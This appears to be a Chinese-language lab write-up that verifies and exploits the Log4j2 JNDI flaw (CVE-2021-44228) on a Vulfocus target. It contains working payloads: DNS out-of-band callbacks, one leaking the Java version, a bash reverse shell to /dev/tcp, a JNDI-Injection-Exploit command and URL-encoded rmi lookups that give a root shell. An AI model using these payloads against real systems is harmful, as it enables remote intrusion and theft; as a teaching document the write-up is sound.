# 【CVE-2021-44228】log4j2漏洞的验证与利用


## 声明

:::Caution

- 非法利用信息网络罪：根据《刑法》第287条之一，设立网站、通讯群组或发布信息用于实施诈骗、传授犯罪方法、制作销售违禁品等违法犯罪活动，情节严重的可处3年以上7年以下有期徒刑，并处罚金。
- 帮助信息网络犯罪活动罪：根据《刑法》第287条之二，明知他人利用网络实施犯罪，仍提供技术支持或帮助
- 非法侵入计算机信息系统罪：根据  《中华人民共和国刑法》违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的行为，情节严重的可处3年以下有期徒刑或者拘役
- 破坏计算机信息系统罪：根据《刑法》第286条，违反国家规定，对计算机信息系统功能进行删除、修改、增加、干扰，造成计算机信息系统不能正常运行，后果严重的可处5年以下有期徒刑或者拘役；故意制作、传播计算机病毒等破坏性程序，影响计算机系统正常运行的，后果严重的可处5年以上有期徒刑。

:::


:::Important

本文章中所展示的所有设备、环境及演示内容，均在封闭、可控的测试环境下完成，不涉及真实攻击，也不针对任何个人或组织。

:::


## 漏洞原理

**log4j2 在日志输出中，未对字符合法性进行严格的限制，执行了 JNDI 协议加载的远程恶意脚本，从而造成RCE。**

详细过程分析：

log4j2 框架下的 lookup 查询服务提供了 {} 字段解析功能，传进去的值会被直接解析。

当用户输入信息时，应用程序中的 log4j2 组件会将信息记录到日志中，假设日志中含有语句${jndi:ldap:192.168.249.1:9001/poc.class} ，log4j2 就会去解析该信息，通过 JNDI 的 lookup() 方法去解析 URL：ldap:192.168.249.1:9001/poc.class，解析到 ldap，就会去 192.168.61.129:9001 的 ldap 服务找名为 poc.class 的资源，如果找不到则会去 http 服务中找，只要在 ldap 或者 http 中找到了 poc.class ，就会将资源信息返回到 JNDI 接口，进而返回给应用程序的 log4j2 组件，而 log4j2 组件会将其下载下来，然后发现 poc.class 是一个 .class 文件，就会去执行里面的代码，从而实现注入，我们就可以通过 poc.class 实现任意命令的执行。

## 影响版本

受影响版本范围：2.0 ≤ Apache Log4j2 < 2.15.0-rc2

## 靶场

这里使用[Vulfocus](https://www.vulfocus.cn/)靶场平台

名称: [vulfocus/log4j2-rce-2021-12-09:1](https://www.vulfocus.cn/#/dashboard?image_id=f39ca437-67cf-42d5-b6e2-4182f41b193a)

打开靶场主页


点击????? url被传入payload参数



## 漏洞验证

这里使用无痛的流量外带方法进行验证

以下是几个流量外带服务的网站
1. [DNSLog](https://www.dnslog.cn/)
2. [dig.pm](https://dig.pm/)
3. [ceye](https://ceye.io/)

这边使用的是dig.pm
dnslog和ceye在本地测试可以ping通 但是没办法在靶机上使用

payload格式如下
```java
${jndi:ldap://5t0p3a.dnslog.cn}
```



这里以bc3b5e6b14.ddns.1433.eu.org.为例

payload为
```java
${jndi:ldap://bc3b5e6b14.ddns.1433.eu.org.}
```

直接将payload 拼凑进url测试

```txt
http://123.58.224.8:41841/hello?payload=${jndi:ldap://bc3b5e6b14.ddns.1433.eu.org.}
```



这边对 payload 进行urlencode

payload为
```java
%24%7Bjndi%3Aldap%3A%2F%2Fbc3b5e6b14.ddns.1433.eu.org.%7D
```

拼凑进url 进行访问测试



返回 ok 此时我们返回平台查看数据



成功带出流量
再进行获取版本测试
将 `${sys:java.version}.` 拼接进去

得到 payload
```java
${jndi:ldap://${sys:java.version}.bc3b5e6b14.ddns.1433.eu.org.}
```

urlencode后
```java
%24%7Bjndi%3Aldap%3A%2F%2F%24%7Bsys%3Ajava.version%7D.bc3b5e6b14.ddns.1433.eu.org.%7D
```



外带出数据 证明漏洞存在

## 漏洞利用

### 1. 打开端口监听

这里我使用的是本地的kali VM系统进行监听

```bash
nc -lvvp <端口号>
```



然后由于我这里没有公网 
需要将内网监听映射到公网



随便找个穿透工具即可

### 2. 构建反弹shell的bash命令

这里使用`Runtime.exec Payload Generater`工具生成指令

原始命令如下
```bash
bash -i >& /dev/tcp/<监听机ip>/<端口号> 0>&1
```



得到最后的bash指令

```bash
bash -c {echo,BASE64_here}|{base64,-d}|{bash,-i}
```

### 3. 创建恶意的JNDI脚本服务

这里使用的工具是`JNDI-Injection-Exploit`

::github{repo="welk1n/JNDI-Injection-Exploiti"}

直接下载发布版本即可

:::warning

- 要确保 **1099**、**1389**、**8180**端口可用，不被其他程序占用。
    
    或者你也可以在run.ServerStart类26~28行更改默认端口。
    
- 命令会被作为参数传入**Runtime.getRuntime().exec()**，
    
    所以需要确保命令传入exec()方法可执行。
    
    **bash等可在shell直接执行的相关命令需要加双引号，比如说 java -jar JNDI.jar -C "bash -c ..."**
- 建议使用java8运行

:::

这边使用vps进行操作 方便公网访问

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "{bash Payload}" -A <vpsIP>
```



会返回JNDI Links
```java
----------------------------JNDI Links----------------------------
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://xxxxx:1099/lpb6g2
ldap://xxxxx:1389/lpb6g2
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://xxxxx:1099/jzjrwx
ldap://xxxxx:1389/jzjrwx
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://xxxxx:1099/8fhn3d

```

### 4. 尝试反弹shell

我们从第一步获得的版本号来看 我们的JDK版本是1.8

所以应使用第一条或最后一条链接进行测试 

**组合payload**

```java
//第一条
${jndi:rmi://xxxxx:1099/lpb6g2}

//最后一条
${jndi:rmi://xxxxx:1099/8fhn3d}
```

分别进行urlencode

```java
//第一条
%24%7Bjndi%3Armi%3A%2F%2Fxxxxx%3A1099%2Flpb6g2%7D

//最后一条
%24%7Bjndi%3Armi%3A%2F%2Fxxxxx%3A1099%2F8fhn3d%7D
```

拼接进url中 进行请求测试

请求完后 注意kali中是否已经反弹shell



**经过测试后 发现最后一条链接成功反弹shell**

### 5. 查看权限并获取flag

在终端中直接运行命令即可

```bash
whoami
```



我们发现我们已经获得root权限  经过查找 我们在/tmp目录下找到flag


```txt
flag-{bmh3a91a4d8-2f73-4144-946a-d26c840fc37b}
```

**就此 漏洞利用完毕 拿下控制权**

## 视频操作

<iframe 
  src="//player.bilibili.com/player.html?isOutside=true&aid=115980156016327&bvid=BV1Ag6AByEFZ&cid=35695691084&p=1&autoplay=0" 
  scrolling="no" 
  border="0" 
  frameborder="no" 
  framespacing="0" 
  allowfullscreen="true"
  style="width: 100%; aspect-ratio: 16/9;"
></iframe>